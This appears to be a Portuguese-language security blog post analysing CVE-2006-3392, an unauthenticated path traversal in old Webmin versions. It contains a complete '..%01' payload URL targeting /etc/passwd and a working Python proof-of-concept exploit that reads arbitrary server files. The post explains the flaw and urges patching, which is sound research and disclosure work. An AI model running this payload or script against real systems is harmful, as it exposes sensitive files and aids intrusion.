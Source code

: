 ```yaml
---
layout: post
title: "Análise da CVE-2006-3392: path traversal no  Webmin"
date: 2024-10-31
---
```


A [CVE-2006-3392](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392)\[1\] é uma vulnerabilidade de [*path traversal*](https://owasp.org/www-community/attacks/Path_Traversal)\[3\] identificada no [Webmin](https://webmin.com)\[2\],  um sistema de configuração web para sistemas Unix-like, que afeta versões anteriores à 1.290. Essa falha ocorre devido à chamada da função \`simplify\_path\` antes da decodificação de HTML. Através da construção de uma sequência de bytes de “..%01”, o atacante consegue *bypassar* a remoção das sequências de “../“ à esquerda de certos bytes (ex., “%01”), permitindo que o atacante leia o conteúdo de arquivos internos do servidor sem  autenticação. A vulnerabilidade foi publicada por Kenny Chen em 30 de Junho de 2006\.

Essa publicação está disponível também em: [Inglês](https://blog.lesis.lat/blog/CVE-2006-3392-EN/)

---

**Descrição**

O Webmin é uma ferramenta de configuração web para sistemas Unix-like, que permite a configuração de recursos internos do sistema, incluindo usuários, disco, serviços e configurações de arquivos. Além disso, também possibilita a modificação e controle de programas open-source, como Apache HTTP Server, PHP, e MySQL, entre outros. 

A vulnerabilidade em questão é um *path traversal* causado pela chamada da função \`simplify\_path\` antes da decodificação de HTML. Utilizando uma sequência de “..%01”, um atacante consegue bypassar a remoção de sequências de “../“, o que permite a leitura do conteúdo de arquivos internos do servidor sem a necessidade de autenticação. Essa falha possibilita que invasores não autenticados leiam arquivos de dentro do sistema por meio de uma URL contendo um *payload* criado especialmente para isso. 

O endpoint utilizado para o *path traversal* se encontra no diretório “/unauthenticated/”. O seu payload pode ser construído da seguinte forma:

[http://vuln-website.com/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd](http://vuln-website.com/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd)

---

**Prova de Conceito**

```python
#!/usr/bin/env python3  
import requests  
import argparse  
import re  
def exploit(url, file):  
    if not re.match(r'^https?://', url):  
        url \= f"https://{url}"  
    payload \= "/unauthenticated" \+ "/..%01" \* 20  
    try:  
        if file is None:  
            file \= "/etc/passwd"  
        response \= requests.get(url \+ payload \+ file)  
        print(response.text)  
    except requests.exceptions.RequestException as e:  
        print(f"Error making request for {url} \-\> {e.reason}")  
def main():  
    parser \= argparse.ArgumentParser(description="CVE-2006-3392")  
    parser.add\_argument("-t", "--target", required=True)  
    parser.add\_argument("-f", "--file")  
    args \= parser.parse\_args()  
    try:  
        exploit(args.target, args.file)  
    except KeyboardInterrupt:  
         exit(1)  
    except EOFError:  
         exit(1)  
if \_\_name\_\_ \== '\_\_main\_\_':  
    main()
```

---

**Impacto**

O impacto dessa vulnerabilidade é considerado de alto risco, pois permite que um atacante não autenticado tenha acesso às informações sensíveis armazenadas no servidor. Esse acesso pode fornecer um entendimento detalhado da estrutura e configuração do sistema, o que, por sua vez, pode abrir caminho para o comprometimento total do sistema e de suas aplicações.

---

**Conclusão**

A vulnerabilidade do Webmin decorre de uma falha no tratamento adequado de sequências de “../“. Esse problema  ocorre devido à chamada da função “simplify\_path” antes da decodificação do HTML, permitindo a leitura de arquivos internos do sistema através de um *path traversal*.

O payload em questão utiliza a  sequência de “..%01” na URL para explorar essa falha, possibilitando o  acesso a arquivos sensíveis, como o “/etc/passwd”. Portanto, é crucial que os administradores de sistemas estejam cientes dessa vulnerabilidade e tomem medidas imediatas para atualizar o Webmin em sistemas legados, para mitigar riscos e proteger seus servidores.

---

**Referências**

* \[1\] [MITRE \- CVE-2006-3392](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392)   
* \[2\] [Webmin](https://webmin.com)  
* \[3\] [OWASP \- Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
